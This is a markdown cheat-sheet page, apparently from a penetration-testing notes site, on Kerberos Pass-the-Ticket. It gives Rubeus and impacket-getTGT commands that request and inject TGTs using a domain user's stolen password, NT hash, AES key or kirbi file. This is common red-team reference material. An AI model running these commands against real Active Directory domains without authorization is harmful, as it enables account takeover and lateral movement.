 ```yaml
---
label: Pass-the-Ticket (Kerberos)
subLabel: (Rubeus, getTGT)
---
```


# Pass-the-Ticket

> **Requirements**
>
> * Credentials (password, RC4/NT hash, AES key, kirbi file) of the target domain user.

Having the credentials of a domain user, we can ask the DC for a new TGT for that user and inject it into the current logon session. This TGT is then used for authentication (e.g. using `winrs` or accessing SMB shares) with privileges of the target user.

**Watch out for domain name!** It's very important in TGT request to use FQDN (e.g. `adlab.local` instead of `adlab`). Even if shortcut normally works, use FQDN in this case.

Windows:

> **IMPORTANT**: Only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the `/ptt` option. You can omit the `/ptt` parameter to **save the TGT to a file** (not inject it into memory) and use it later.

```powershell
# Using password
./Rubeus.exe asktgt /user:$fqdn\$user /password:$password /ptt

# Using AES256 key
./Rubeus.exe asktgt /user:$fqdn\$user /aes256:$aes256_key /ptt

# Using RC4/NT hash (Overpass-the-Hash)
./Rubeus.exe asktgt /user:$fqdn\$user /rc4:$rc4 /ptt

# Inject TGT as base64 or .kirbi file
./Rubeus.exe ptt /ticket:$base64_or_kirbi_file

# Check TGT in memory
klist
klist tgt
```

{/*TODO: /createonlt parameter (elevation required)*/}

Linux (request TGT and save it to `.ccache` file):

```bash
# Using password
impacket-getTGT $fqdn/$user:$pass -dc-ip $dc_ip

# Using NT hash
impacket-getTGT $fqdn/$user -hashes :$nt_hash -dc-ip $dc_ip

# Using AES key
impacket-getTGT $fqdn/$user -aesKey $aes_key -dc-ip $dc_ip
```

## References

* [GhostPack, *Rubeus: asktgt*](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#asktgt)
